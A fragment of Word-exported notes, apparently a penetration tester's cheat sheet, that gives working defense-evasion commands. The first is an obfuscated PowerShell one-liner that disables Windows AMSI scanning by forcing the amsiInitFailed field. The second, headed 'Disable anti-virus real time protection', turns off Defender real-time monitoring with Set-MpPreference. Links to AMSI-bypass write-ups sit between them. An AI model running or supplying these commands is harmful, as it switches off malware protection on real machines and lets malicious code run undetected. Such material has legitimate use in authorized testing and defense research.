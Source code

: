 
<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE>S`eT-It`em</span> ( 'V'+'<span
class=SpellE>aR</span>' +<span style='mso-spacerun:yes'>  </span>'IA' +
((&quot;{1}{0}&quot;-f'1','blE:')+'q2')<span style='mso-spacerun:yes'> 
</span>+ ('<span class=SpellE>uZ</span>'+'x')<span style='mso-spacerun:yes'> 
</span>) ( [<span class=SpellE>TYpE</span>](<span style='mso-spacerun:yes'> 
</span>&quot;{1}{0}&quot;-F'F','<span class=SpellE>rE</span>'<span
style='mso-spacerun:yes'>  </span>) )<span style='mso-spacerun:yes'> 
</span>;<span style='mso-spacerun:yes'>    </span>(<span
style='mso-spacerun:yes'>    </span>Get-<span class=SpellE>varI`A`BLE</span><span
style='mso-spacerun:yes'>  </span>( ('1Q'+'2U')<span style='mso-spacerun:yes'> 
</span>+'<span class=SpellE>zX</span>'<span style='mso-spacerun:yes'> 
</span>)<span style='mso-spacerun:yes'>  </span>-<span class=SpellE>VaL</span><span
style='mso-spacerun:yes'>  </span>).&quot;A`ss`Embly&quot;.&quot;<span
class=SpellE>GET`TY`Pe</span>&quot;((<span style='mso-spacerun:yes'> 
</span>&quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f('<span class=SpellE>Uti'+'l</span>'),'A',('Am'+'<span
class=SpellE>si</span>'),((&quot;{0}{1}&quot; -f '.<span class=SpellE>M','an</span>')+'<span
class=SpellE>age'+'men'+'t</span>.'),('<span class=SpellE>u'+'to</span>'+(&quot;{0}{2}{1}&quot;
-f 'ma','.','<span class=SpellE>tion</span>')),'s',((&quot;{1}{0}&quot;-f '<span
class=SpellE>t','Sys</span>')+'<span class=SpellE>em</span>')<span
style='mso-spacerun:yes'>  </span>) ).&quot;<span class=SpellE>g`etf`iElD</span>&quot;(<span
style='mso-spacerun:yes'>  </span>( &quot;{0}{2}{1}&quot; -f('a'+'<span
class=SpellE>msi</span>'),'d',('I'+(&quot;{0}{1}&quot; -f '<span class=SpellE>ni</span>','<span
class=SpellE>tF</span>')+(&quot;{1}{0}&quot;-f '<span class=SpellE>ile</span>','a'))<span
style='mso-spacerun:yes'>  </span>),(<span style='mso-spacerun:yes'> 
</span>&quot;{2}{4}{0}{1}{3}&quot; -f ('<span class=SpellE>S'+'tat</span>'),'<span
class=SpellE>i</span>',('Non'+(&quot;{1}{0}&quot; -f'<span class=SpellE>ubl</span>','P')+'<span
class=SpellE>i</span>'),'<span class=SpellE>c','c</span>,'<span
style='mso-spacerun:yes'>  </span>)).&quot;<span class=SpellE>sE`T`VaLUE</span>&quot;(<span
style='mso-spacerun:yes'>  </span>${<span class=SpellE>n`ULl</span>},${<span
class=SpellE>t`RuE</span>} )<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><b>Disable anti-virus real time protection</b><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'><a
href="https://www.puckiestyle.nl/amsi-bypass/">https://www.puckiestyle.nl/amsi-bypass/</a><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'><a
href="http://www.labofapenetrationtester.com/2016/09/amsi.html">http://www.labofapenetrationtester.com/2016/09/amsi.html</a><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'><a
href="https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html">https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html</a><o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>Set-<span class=SpellE>MpPreference</span> -<span
class=SpellE>DisableRealtimeMonitoring</span> $true<o:p></o:p></p>
